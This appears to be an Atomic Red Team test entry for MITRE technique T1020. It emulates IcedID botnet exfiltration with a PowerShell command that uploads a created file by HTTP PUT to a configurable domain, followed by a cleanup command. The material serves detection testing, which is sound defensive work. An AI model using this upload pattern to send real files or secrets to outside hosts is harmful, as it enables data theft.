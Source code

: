 ```yaml
---
tags: [T1020, atomic_test]
filename: "[[T1020 - Automated Exfiltration]]"
---
```

# T1020 - Automated Exfiltration

## Atomic Test #1 - IcedID Botnet HTTP PUT
Creates a text file
Tries to upload to a server via HTTP PUT method with ContentType Header
Deletes a created file

**Supported Platforms:** Windows


**auto_generated_guid:** 9c780d3d-3a14-4278-8ee5-faaeb2ccfbe0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file | Exfiltration File | string | C:&#92;temp&#92;T1020_exfilFile.txt|
| domain | Destination Domain | url | https://google.com|


#### Attack Commands: Run with `powershell`! 


```powershell
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

#### Cleanup Commands:
```powershell
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```





<br/>
